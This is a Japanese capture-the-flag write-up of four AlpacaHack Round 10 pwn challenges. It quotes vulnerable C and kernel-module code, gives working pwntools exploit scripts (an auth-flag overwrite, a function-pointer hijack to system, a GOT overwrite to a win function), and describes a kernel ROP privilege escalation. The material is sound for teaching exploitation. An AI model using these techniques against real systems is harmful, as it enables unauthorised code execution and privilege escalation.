

AlpacaHack Round 10(Pwn) に参加してきました。
競技中は 3 問、終了後に残りの 1 問を解いたので解説していきます。

# Oyster

ユーザ名とパスワードを入力し、正解するとフラグがもらえます。パスワードはわかりません。

脆弱性はここ

```c
void getstr(const char *s, char *buf, size_t len) {
  /* Get a line of input */
  printf("%s", s);
  if (fgets(buf, len, stdin) == NULL)
    exit(1);

  /* Remove trailing newline */
  buf[strlen(buf)-1] = '\0';
}
```

長さ 0 の入力を与えると、`buf[-1]` に 0 を書き込みます。問題では、ここに認証が成功したかどうかのフラグが格納されており、壊すことでシェルが降ってきます。

```python
p = remote("34.170.146.252", 44367)
p.sendlineafter(b"Username: ", b"root")
p.sendlineafter(b"Password: ", b"\x00")
p.interactive()
```

# kangaroo

メッセージを格納する配列と関数ポインタがグローバルに隣接して配置されています。
Partial RELRO かつ、no PIE です。

```c
#define SLOT 8
#define SIZE 0x48

char g_messages[SLOT*SIZE];
void (*fn_clear)(void*, size_t);
```

入出力は次の関数でバリデーションされます。

```c

off_t get_offset(const char *s) {
  off_t offset;
  ssize_t index;

  printf("%s", s);
  if (scanf("%ld", &index) != 1)
    exit(1);

  if (index >= LLONG_MAX / SIZE) {
    puts("[-] Integer overflow");
    exit(1);
  }

  offset = index * SIZE;
  if (offset < 0 || offset >= sizeof(g_messages)) {
    puts("[-] Invalid offset");
    exit(1);
  }

  return offset;
}
```

しかし、index が ssize_t 型なので、負の値を入れることができます。SIZE を掛けた時、ちょうど g_message の後半を指すように細工すると、関数ポインタを改ざんできます。
計算が面倒なので AI に任せます。次のようにするといいらしいです。

```
有効なindex値一覧:
index = -1281023894007607744, offset = 0x200
index = -256204778801521543, offset = 0x208
index = -1537228672809129294, offset = 0x210
index = -512409557603043093, offset = 0x218
index = -1793433451610650844, offset = 0x220
index = -768614336404564643, offset = 0x228
index = -2049638230412172394, offset = 0x230
index = -1024819115206086193, offset = 0x238
index = -2305843009213693944, offset = 0x240
index = -1281023894007607743, offset = 0x248

合計 10 個の有効なindex値が見つかりました。
```

境界チェックに注意し、

```
index = -2305843009213693944, offset = 0x240
```

を使って関数ポインタを書き換えます。`win`関数が無いので、libc leak をしたいです。関数ポインタを`printf@plt`に向けます。
あとはスタックに乗ってる適当な libc アドレスから`system`を計算し、関数ポインタを`system`にして`system("/bin/sh")`を実行します。

```python
# fn_clear = plt of printf
read_message(r, -1024819115206086193, b"A" * 8 + pack(exe.plt["printf"]))

read_message(r, 0, "%9$p")
clear_all(r) # leak

libc_base = int(r.readuntil(b'1ca').decode(), 16) - 0x2a1ca
libc.address = libc_base

assert libc_base & 0xfff == 0
success(f"got libc base at {libc_base}")

# set execute command
read_message(r, 0, "/bin/sh")

read_message(r, -1024819115206086193, b"A" * 8 + pack(libc.symbols["system"]))
clear_all(r)

r.interactive()
```

# takahashi

次のソースコードとバイナリが渡されます。
Partial RELRO かつ、no PIE です。

```c
// https://github.com/E869120/kyopro-tessoku/blob/main/codes/cpp/chap08/answer_A53.cpp
#include <iostream>
#include <queue>
#include <vector>
using namespace std;

int Q;
int QueryType[100009], x[100009];
priority_queue<int, vector<int>, greater<int>> T;

int main() {
	// 入力
	cin >> Q;
	for (int i = 1; i <= Q; i++) {
		cin >> QueryType[i];
		if (QueryType[i] == 1) cin >> x[i];
	}

  // asm volatile("int3");

	// クエリの処理
	for (int i = 1; i <= Q; i++) {
		if (QueryType[i] == 1) T.push(x[i]);
		if (QueryType[i] == 2) cout << T.top() << endl;
		if (QueryType[i] == 3) T.pop();
	}


	return 0;
}

void win() { std::system("/bin/sh"); } // Gift :)
```

QueryType も x も T も、全てグローバルにあります。Q を大きくしてやると、T の持つポインタを改ざんすることができます。
これを GOT に向け、適当な関数(`endl`の演算子オーバーロードとかがおすすめ)を`win`に向けます。
書き込み時、priority_queue であることに注意してください。一次元配列をいい感じに用いて木構造を作っているので、目的の値を書き込むため少しだけ工夫が必要です。

```python
# create fake std::vector<int> points to GOT
target_got = exe.got["_ZNSolsEPFRSoS_E"] - 8
overwrite = exe.symbols["_Z3winv"]

offset_to_T = (exe.symbols["T"] - exe.symbols["x"]) // 4

payload = b""
for _i in range(0x10):
    payload += ttop()

# write payload to overwrite got

payload += push(0)
payload += push(0)
payload += push(overwrite)
payload += push(0)

while num_of_queries < (offset_to_T - 1):
    payload += ttop()

payload += push(((target_got + 0) >> 0) & 0xffffffff)
payload += push(((target_got + 0) >> 32) & 0xffffffff)
payload += push(((target_got + 0) >> 0) & 0xffffffff)
payload += push(((target_got + 0) >> 32) & 0xffffffff)
payload += push(((target_got + 0x100) >> 0) & 0xffffffff)
payload += push(((target_got + 0x100) >> 32) & 0xffffffff)

r.sendline(str(num_of_queries).encode())
r.send(payload)

r.interactive()
```

# giraffe.ko

カーネルモジュールのソースコードが渡されます。[チャレンジ](https://alpacahack.com/ctfs/round-10/challenges/giraffe)
モジュールの Makefile を見ると、スタックプロテクタが軒並み無効化されています。スタック問題っぽいです。
また、SMAP,KASLR も無効化されています。慈悲を感じますね。

実際のモジュールを見てみましょう。モジュールの内容は単純です。giraffe 専用の kmem_cache(size=BUF_SIZE=0x20)を作成し、open するとそこから allocation されます。アドレスは`filp->private_data`に格納されます。その領域への read,write も実装されています。

脆弱性はここです。

```c
static ssize_t module_write(struct file *filp, const char __user *buf, size_t count, loff_t *f_pos) {
  char tmp[BUF_SIZE+1] = { 0 };
  count = count > BUF_SIZE ? BUF_SIZE : count;

  if (copy_from_user(tmp, buf, count))
    return -EINVAL;

  strcpy(filp->private_data, tmp);

	return strlen(tmp);
}
```

よく見ると、`filp->private_data`は 0x20 しか無いのに対し、`strcpy`を用いて`tmp`をコピーしています。`tmp`は`BUF_SIZE+1`なので、`filp->private_data`には`tmp`の後ろの 1 バイトだけ NULL が書き込まれます。off-by-one です。

これだけでは脆弱性の悪用が難しそうです。ところで、off-by-one できる領域には何が入っているのでしょうか。
実は、kmem_cache は freelist を持っており、次の領域へのポインタが 8 バイトぎっしり格納されています。そのうちの最下位バイトを 0 にすることができるというのがこの問題の脆弱性です。
ただし、このポインタはランダムな値を xor されており、かつ allocated な時に改ざんしてもなんの効果もありません。AAW を作るのは難しそうです。

しかし、この領域を close(free)すると面白いことが起きます。対象のチャンクが free されることで、off-by-one で改ざんした値が復活し、8 バイトの NULL を含まない値に戻ります。この状態で再度 open すると、`filp->private_data`は値を初期化しないため、元の文字列+8 バイトの文字列が入っていることになります。

図示すると次のような感じです。

1. open

```
+----------------+
|0000000000000000| <- filp->private_data
|0000000000000000|
|0000000000000000|
|0000000000000000|
|xxxxxxxxxxxxxxxx| <- chunk->next
```

2. off-by-one

```
+----------------+
|4141414141414141| <- filp->private_data
|4141414141414141|
|4141414141414141|
|4141414141414141|
|xxxxxxxxxxxxxx00| <- chunk->next
```

3. close(free)

```
+----------------+
|4141414141414141| <- filp->private_data
|4141414141414141|
|4141414141414141|
|4141414141414141|
|xxxxxxxxxxxxxxxx| <- chunk->next
```

4. open

```
+----------------+
|4141414141414141| <- filp->private_data
|4141414141414141|
|4141414141414141|
|4141414141414141|
|xxxxxxxxxxxxxxxx| <- chunk->next
```

また、module_read で`filp->private_data`を読むことができますが、この時、ヒープの値を一時的にスタックへコピーします。その際も`strcpy`を用いているため、NULL 文字が来るまで書き込み続けることができます。Stack BoF です。以下、この fd を victim と呼称します。
fd を複数確保し、victim の次の領域に ROP Chain を配置し module_read を行うことで、victim, chunk->next, nextfd の順にスタックに値が書き込まれていきます。ちょうど nextfd の 0x11 バイト目に書き込まれたアドレスが module_read の return address を書き換えます。

ここで問題になるのが次の 3 点です。

- victim の後ろに配置される fd がどれかわからない。
- 全てを spray すると大量のデータがスタックにコピーされるが、容易されているスタックが少ないため Page Fault が発生する。
- うまく配置したとしても、stack の配置的に 0xf バイトしか有効な ROP Chain が配置できない。

この問題を解決するため、spray によって全 fd に書き込むのではなく、一つづつ書き込んで発火させを繰り返すことで、victim の後ろに配置される fd を総当りします。これによって大量のデータがスタックにコピーされることもなくなるので、Page Fault も発生しません。

また、0xf バイトしか有効な ROP Chain が配置できない問題は、SMAP が無効であることを利用し、`pop rsp; ret`を使ってユーザ空間のバッファにスタックを移動させ、その場所に ROP Chain を配置することで解決します。

<script src="https://gist.github.com/Iwancof/59bd8e406a2bac72302150cd7f72e05f.js"></script>

## おまけ

どうせなら +SMAP,+SMEP でも安定して動作する exploit がほしいですよね。
SMAP があるとユーザ空間に pivot することができないため、カーネルのヒープ上でうまくガジェットをやりくりする必要があります。そのため、4 つほど連続する fd を確保する必要があります。

先程スタックピボット用のガジェットを入れていた部分に適当な値を入れて発火させると、その場でカーネルがクラッシュしてしまいます。どうにかして victim の次であるかどうかという情報を得る必要があります。
まず考えたのは、どうにかして 0xf バイトだけでユーザ空間に戻る方法です。無理やり戻ることで module_read の返り値や何かしらの情報を外部に漏らすことができれば隣接しているかどうかのチェックができます。しかし、想像の通り 0xf バイトだけで戻るのは厳しいです。あと 1 バイト多ければ、telefork と呼ばれる手法を用いて 0x10 バイトで ret2usr できますが、これも不可能でした。

次に考えたので、カーネルの関数`msleep`に飛ばすことです。隣接していた場合に`msleep`が呼ばれるようにしておき、`module_read`から帰ってくる時間を観測することで隣接判定を行うことができます。
また、ガジェット発火時の`$rdi`は`module_read`の書き込み先アドレスであるため、予め`0x1000`というアドレスを mmap で確保し、それを指定することで`msleep(0x1000)`となり、これは 4.096 秒待機を意味します。これを利用して隣接判定を行うことができます。

しばらくこの方針で実装を進めていましたが、よくよく考えると`vfs_read`に戻っていないため`fd`が開放されずこれ以降書き込みを行うことができません。諦めます。別の方法を考えましょう。
次に考えたには、ガジェットを`do_exit`に向けることです。`do_exit`はプロセスを終了させる関数であり、第一引数を終了コードに入れてプロセスを終了されます。
ユーザ空間で予め`vfork`を行い、fd を共有した状態で発火させます。隣接していなかった場合、ユーザ空間で`exit(1)`にすることで、親が`waitpid`した時終了コードに違いは生まれます。
これを利用して隣接判定を行うことができます。
子プロセスは終了しているため、この fd への書き込みを行うことができます。

さて、victim に隣接した fd を見つけることができました。次は、この見つかった fd を victim とし、さらに隣接した fd を見つけます。この操作を繰り返すことで、連続した fd 領域を任意の数取ってくることができます（最初に取ってきた victim が kcache の最下部であった場合のみクラッシュします）。

連続した fd を見つけてきたらここに ROP Chain を書き込んでいきます。後で載せる exploit では、`chain_fds[]` という配列に格納されています。
まず、`chain_fds[0]`に BoF 用のゴミを入れ、`chain_fds[1]`に`pop; pop; ret` を入れることで、`chain_fds[2]`では 0x18 バイトを ROP に用いることができます。

この時のヒープの状態を図示すると、こう。

```
+----------------+
|4141414141414141| <- chain_fds[0] # module_read(chain_fds[0]) -> BoF
|4141414141414141|
|4141414141414141|
|4141414141414141|
|xxxxxxxxxxxxxxxx|
|fffff(r12)ffffff| <- chain_fds[1]
|fffff(rbp)ffffff|
|  pop;pop;ret   |
|ffffffffffffffff|
|xxxxxxxxxxxxxxxx|
|    gadget 1    | <- chain_fds[2]
|    gadget 2    |
|  pop;pop;ret   |
|ffffffffffffffff|
|xxxxxxxxxxxxxxxx|
|    gadget 3    | <- chain_fds[3]
|    gadget 4    |
|  pop;pop;ret   |
|ffffffffffffffff|
|xxxxxxxxxxxxxxxx|
|    gadget 5    | <- chain_fds[4]
|    gadget 6    |
|  pop;pop;ret   |
|ffffffffffffffff|
```

これで好きなガジェットを呼び出すことができます。ただ、`strcpy`を使っているため、NULL 文字は入れることができません。今回は KASLR が無効なので、`commit_creds(init_cred); fork(); msleep()` ROP を組むことで root を取ります。後半は先程紹介した telefork です。

最終的な exploit は次のようになります。実際、+smap,+smep で安定し、リモートでも刺さりました。

<script src="https://gist.github.com/Iwancof/13a7b331261cd9a9e7c9a38a274a1e3d.js"></script>



# 感想

フラグをためて最後に出すムーブをしていたら、最後のカーネル問題が難しく競技中に解くことができませんでした。恥ずかし。
カーネルの知識不足を痛感しました。色々な攻撃パスを試すことができるようになりたいです。

今回も非常に面白い問題が多く、めちゃくちゃ楽しかったです！運営の皆様、ありがとうございました！
